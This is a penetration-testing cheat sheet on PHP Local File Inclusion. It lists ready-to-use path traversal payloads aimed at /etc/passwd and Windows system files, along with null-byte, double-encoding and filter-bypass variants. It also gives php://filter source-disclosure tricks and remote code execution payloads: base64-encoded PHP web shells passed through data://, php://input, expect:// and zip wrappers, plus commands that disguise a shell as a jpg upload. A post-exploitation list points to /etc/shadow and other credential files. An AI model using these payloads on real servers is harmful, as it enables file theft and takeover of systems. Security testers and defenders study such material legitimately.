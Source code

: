 # X - Local File Inclusion

The File Inclusion vulnerability allows for the include of a file locally
present on the server, usually exploiting a "dynamic file inclusion" mechanisms
implemented in the target application.  

The vulnerability occurs due to the use of user-supplied input without proper
validation.

### RECON

Look for scripts which take filenames as parameters, such as the following
examples:

```
http://vulnerable_host/preview.php?file=example.html
http://vulnerable_host/?op=home
```

Try to access common files, such as:

```
# Linux

# Windows
WINDOWS\System32\drivers\etc\hosts
```

<br />
### EXPLOIT - File access

###### Basic

Typical proof-of-concept for basic LFI would be:

```
# Linux
?file=../../../../../../../../../../etc/passwd

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts
```

###### Null Byte
In some cases, the server will will include ".php” at the end of the requested
file.
Such mechanisms can be bypassed using the line terminator char *null byte*:

```
# Linux
?file=../../../../../../../../../../etc/passwd%00

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts%00
```

###### Double encoding
Encoding parameters twice in hexadecimal format can be leveraged to bypass
security controls such as blacklist filters.  
For example, the '.' (*dot*) character represent %2E in hexadecimal
representation. When the % symbol is encoded again, its representation in
hexadecimal code is %25. The result from the double encoding process is %252E.

```
# Linux
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Windows
?file=%252e%252e%255c%252e%252e%255c%252e%252e%255cWINDOWS%255cSystem32%255cdrivers%255cetc%255chosts
```

###### Filter bypass
Some blacklist filter may be implemented and restrict the usage of "../".  
Those kind of filter may be passed using the following payloads:

```
# Linux
?file=..././..././..././etc/passwd
?file=....//....//etc/passwd
?file=..///////..////..//////etc/passwd


# Windows
?file=....\\....\\....\\....\\....\\....\\WINDOWS\System32\drivers\etc\hosts%00
?file=..\\\\\\..\\\\\\..\\\\\\..\\\\\\..\\\\\\WINDOWS\System32\drivers\etc\hosts%00
```

###### PHP wrappers

**php://filter**  
This PHP wrapper can be used to access the source code of the page:

```
# Base64 encoding
?page=php://filter/convert.base64-encode/resource=config.php

# rot13 encoding
?page=php://filter/read=string.rot13/resource=config.php
```

<br />
### EXPLOIT - RCE

###### File upload


###### PHP wrappers

**data**  
The PHP *data://* wrapper allows for the injection and execution of PHP code
given in parameter:

```bash
# <?php phpinfo(); ?>
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2B

# <?php system($_GET['cmd']); ?>
?page=data://text/plain;base64,PD8gcGhwIHN5c3RlbSgkX0dFVFsnY21kJ10pOyA%2fPg%3d%3d

# XSS (alert(1))
?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

**expect**  
The PHP *expect://* wrapper allows execution of system commands but is not
enabled by default.

```bash
php?page=expect://whoami
```

**input**  
The PHP *input://* wrapper allows for the injection and execution of PHP code
given in the POST request body:

```bash
POST .../?page=php://input&cmd=whoami
...
<?php system($_GET['cmd']); ?>
```

**zip / phar**  
The *zip://* and *phar://* wrappers can be used to achive code execution if a
zip or phar archive can be upload to the server:
```bash
# <pre><?php system($_GET['cmd']); ?></pre>
echo "<pre><?php system(\$_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
# As the file extension does not matter, a file with a jpg extension can be uploaded
mv payload.zip shell.jpg;    

# zip://<PATH_TO_UPLOADED_FILE>%23<FILE_INSIDE_ZIP>&cmd=<CMD>
?page=zip://shell.jpg%23payload&cmd=whoami
?page=zip://shell.jpg%23payload.php
```

###### Log files contamination

###### PHP sessions

###### /proc/self/

<br />
### POST-EXPLOIT

###### Linux files

the following Linux files can be of interest:
```
# System information
/etc/issue

# System users account information
/etc/passwd

# System users account hashed password
/etc/shadow

# System grouops information
/etc/group


/etc/hosts
```

--------------------------------------------------------------------------------

### Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal  

https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/  

https://highon.coffee/blog/lfi-cheat-sheet/  

https://secure.php.net  

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601  
